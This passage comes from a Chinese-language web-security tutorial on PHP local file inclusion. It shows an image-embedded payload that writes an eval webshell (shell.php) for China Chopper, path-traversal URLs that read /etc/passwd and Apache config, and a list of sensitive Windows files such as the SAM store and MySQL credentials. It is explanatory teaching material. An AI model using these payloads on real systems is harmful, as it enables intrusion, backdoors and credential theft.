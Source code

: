 类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题 [XMAN夏令营-2017-babyweb-writeup | Chybeta](https://chybeta.github.io/2017/08/22/XMAN%E5%A4%8F%E4%BB%A4%E8%90%A5-2017-babyweb-writeup/)

### 本地包含配合文件上传

#### 说明
很多网站通常会提供文件上传功能，比如：上传头像，文档等。

#### 利用条件：
千变万化，不过至少得知道上传的文件在哪，叫啥名字。。。

**假设已经上传一句话图片木马到服务器**，路径为：

```
/uploadfile/201363.jpg
```

图片代码如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[xxser]);?>")?>
```

#### 姿势：
访问URL：

```
http://www.xxser.com/Index.php?page=./uploadfile/201363.jpg
```

包含这张图片，将会在`Index.php`所在的目录下生成`shell.php`，此时可以通过中国菜刀连接了。

### 读取敏感信息
访问URL：`http://www.xxser.com/index.php?page=/etc/passwd`,如果**目标主机文件存在，并且有相应的权限**，那么就可以读出文件内容。反之，会得到类似`open_basedirrestriction in effect.`的警告

```
# 如下是例子，其中的../用于返回根目录，九个即可
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
```

[更多敏感信息路径](http://wiki.apache.org/httpd/DistrosDefaultLayout)

#### 常见敏感信息路径如下
##### Windows
```
C:\boot.ini		// 查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml	// IIS配置文件
C:\windows\repair\sam									// 存储Windows系统初次安装的密码
C:\Program Files\mysql\my.ini						  // Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD // Mysql root
C:\windows\php.ini										   // php配置信息
C:\windows\my.ini											// Mysql配置文件
```

##### Linux/Unix
